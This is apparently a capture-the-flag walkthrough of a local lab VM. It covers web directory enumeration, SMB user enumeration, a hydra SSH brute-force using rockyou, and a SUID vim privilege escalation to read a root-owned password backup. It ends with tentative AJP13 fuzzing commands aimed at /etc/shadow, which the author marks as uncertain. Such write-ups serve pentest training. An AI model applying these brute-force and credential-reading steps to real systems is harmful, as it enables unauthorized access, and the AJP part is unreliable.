 
After performing gobuster scan on the target ip with port 80. I found these notes in the following directory "http://192.168.56.101/development/"

Note from dev.txt 
```
2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat
to host that on this server too. Haven't made any real web apps yet, but I have tried that example
you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm 
using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J

```


Note from j.txt
```
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials,
and I was able to crack your hash really easily. You know our password policy, so please follow
it? Change that password ASAP.

-K

```

As it was mentioned that j's hash is easy. I need to find the username in order to perform brute-force attack.

So, now we know that one of the port's are running SMB. I got the username after performing a enum4linux scan. j ---> jan.

Now, we got the username jan. 

	hydra -l jan -P /usr/share/wordlist/rockyou.txt <ip a> ssh


Now, we got a user shell. To get the root access we need to perform a privilege escallation.

command to check the file with root permissions: {find / -perm -4000  2>/dev/null}

And I found vim has the root access. So, I can open any file no matter what the permissions are. So, opened an root user kay's pass.bak and found his password.

		heresareallystrongpasswordthatfollowsthepasswordpolicy$$

Logged as kay with password -----> su kay

sudo su (got the root access)

```
Congratulations! You've completed this challenge. There are two ways (that I'm aware of) to gain 
a shell, and two ways to privesc. I encourage you to find them all!

If you're in the target audience (newcomers to pentesting), I hope you learned something. A few
takeaways from this challenge should be that every little bit of information you can find can be
valuable, but sometimes you'll need to find several different pieces of information and combine
them to make them useful. Enumeration is key! Also, sometimes it's not as easy as just finding
an obviously outdated, vulnerable service right away with a port scan (unlike the first entry
in this series). Usually you'll have to dig deeper to find things that aren't as obvious, and
therefore might've been overlooked by administrators.

Thanks for taking the time to solve this VM. If you choose to create a writeup, I hope you'll send 
me a link! I can be reached at josiah@vt.edu. If you've got questions or feedback, please reach
out to me.

Happy hacking!


```

Another method: 


There's a protocol called ajp13 (Apache Jserv 1.3) and it got an exploit where we can get a connection.

Note: I'm not sure for now. The below commands are for the same.

> genericfuzz 2 "HTTP/1.1" "/test.html" "192.168.56.101" "192.168.56.101" "server.name.test" 8009 false "Cookie:AAAA=BBBB" "secret:FUZZ" /etc/shadow

> forwardrequest 2 "HTTP/1.1" "/api/" 127.0.0.1 localhost porto 8009 false "Cookie:AAAA=BBBB" ""


